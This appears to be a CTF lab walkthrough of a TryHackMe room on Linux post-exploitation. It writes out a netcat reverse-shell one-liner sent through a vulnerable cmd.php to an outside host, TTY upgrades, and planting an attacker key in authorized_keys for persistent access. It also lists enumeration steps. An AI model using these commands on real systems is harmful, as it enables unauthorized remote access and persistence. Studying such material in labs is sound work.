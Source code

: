 # Room
https://tryhackme.com/room/lle

# Task 1 - Intro
Create a local listener
```
nc -nvlp 5544
listening on [any] 5544 ...
```

Establish a reverse shell using the vulnerable cmd.php script that runs any remote shell command
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc a.b.c.d 1234 >/tmp/f
```
Check local listener
```
connect to [a.b.c.d] from (UNKNOWN) [10.10.200.181] 50154
/bin/sh: 0: can't access tty; job control turned off
$ whoami
manager
```

# Task 2 - tty
A basic netcat shell needs to be upgraded

* Upgrade with Python
    ```
    python3 -c 'import pty; pty.spawn("/bin/bash")'

    $ whoami
    manager
    $ python3 -c 'import pty; pty.spawn("/bin/bash")'
    manager@py:~/Desktop$ 
    ```

* Upgrade with Perl
    ```
    perl -e 'exec "/bin/bash";'
    ```

# Task 3 - ssh
SSH can use RSA keys for authentication.  They are usually stored in the /home/user/.ssh directory in a file called id_rsa and id_rsa.pub.  The id_rsa file itself should have rw permissions for your user (600).  You can id_rsa to connect using SSH with ssh -i for hosts that contain a copy of your public key: id_rsa.pub
* Connect using private key
    ```
    chmod 600 id_rsa

    ssh -i id_rsa user@a.b.c.d
    ```
* If RSA keys do not exist you can create them with ssh-keygen
    ```
    ssh-keygen

    manager@py:~/.ssh$ ls -lrta
    ls -lrta
    total 8
    drwx------  2 manager manager 4096 Aug  4 11:43 .
    drwxr-xr-x 16 manager manager 4096 Oct 25 13:43 ..

    manager@py:~/.ssh$ ssh-keygen
    ssh-keygen
    Generating public/private rsa key pair.
    Enter file in which to save the key (/home/manager/.ssh/id_rsa): 

    Enter passphrase (empty for no passphrase): 

    Enter same passphrase again: 

    Your identification has been saved in /home/manager/.ssh/id_rsa.
    Your public key has been saved in /home/manager/.ssh/id_rsa.pub.
    The key fingerprint is:
    SHA256:RWXkxa93mpeMB1EMWeZxadI6+oFEFhVXNipzbmXuZTE manager@py
    The key's randomart image is:
    +---[RSA 2048]----+
    |          .+*=O**|
    |         . = +*B+|
    |          +o.o=E |
    |         . .=++ +|
    |        S . ooooo|
    |           o.oo.+|
    |            . ==o|
    |             oo+.|
    |              .. |
    +----[SHA256]-----+
    ```
* ssh-keygen creates two files, id_rsa, and id_rsa.pub.  id_rsa is your private key and should stay on only trusted and secure systems, never give it away.  id_rsa.pub is your public key, it can be appended to a remote machine's authorized_keys file to allow you to connect to it with your private key and a valid local user on the system
    ```
    manager@py:~/.ssh$ ls -lrta
    ls -lrta
    total 16
    drwxr-xr-x 16 manager manager 4096 Oct 25 13:43 ..
    -rw-r--r--  1 manager manager  392 Jan 24 19:53 id_rsa.pub
    -rw-------  1 manager manager 1675 Jan 24 19:53 id_rsa
    drwx------  2 manager manager 4096 Jan 24 19:53 .
    manager@py:~/.ssh$ 
    ```
* append public key to authorized_keys in order to allow connection using private key
    ```
    manager@py:~/.ssh$ echo "ssh-rsa AAAAB.............dabXrDwdkOBakjk= some1@kali" > authorized_keys

    manager@py:~/.ssh$ ls -lrta
    ls -lrta
    total 20
    drwxr-xr-x 16 manager manager 4096 Oct 25 13:43 ..
    -rw-r--r--  1 manager manager  392 Jan 24 19:53 id_rsa.pub
    -rw-------  1 manager manager 1675 Jan 24 19:53 id_rsa
    -rw-rw-r--  1 manager manager  562 Jan 24 20:02 authorized_keys
    drwx------  2 manager manager 4096 Jan 24 20:02 .

    manager@py:~/.ssh$ cat authorized_keys
    cat authorized_keys
    ssh-rsa AAAAB.............dabXrDwdkOBakjk= some1@kali    
    ```

# Task 4 - Basic enumeration
* Initial enumeration tasks
    * uname -a - prints information about the system
    ```
    manager@py:~/.ssh$ uname -a
    uname -a
    Linux py 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
    ```
    * check .bash_history, .bash_profile, and .bashrc in the user directory for indications of last used commands, and the possibility of programs or jobs executing
    * check the version of sudo with sudo -V
    ```
    manager@py:~/.ssh$ sudo -V
    sudo -V
    Sudo version 1.8.21p2
    Sudoers policy plugin version 1.8.21p2
    Sudoers file grammar version 46
    Sudoers I/O plugin version 1.8.21p2
    ```
    * check the current user's sudo rights with sudo -l

# Task 5 - /etc
The /etc directory is a central location for storing configuration files for the applications running on your system, many important file live here
* /etc/passwd - a text file that contains all user accounts on the system including their user ID, group ID, home directory, and shell
* /etc/shadow - stores password hashes of the users found in the /etc/passwd file, the hashes are salted and some of the algorithm prefixes include:
    * $1$ - MD5
    * $2a$ - Blowfish
    * $2y$ - Blowfish
    * $5$ - SHA-256
    * $6$ - SHA-512
* /etc/hosts - allows you to map hostnames to specific IPs instead of resolving them with DNS
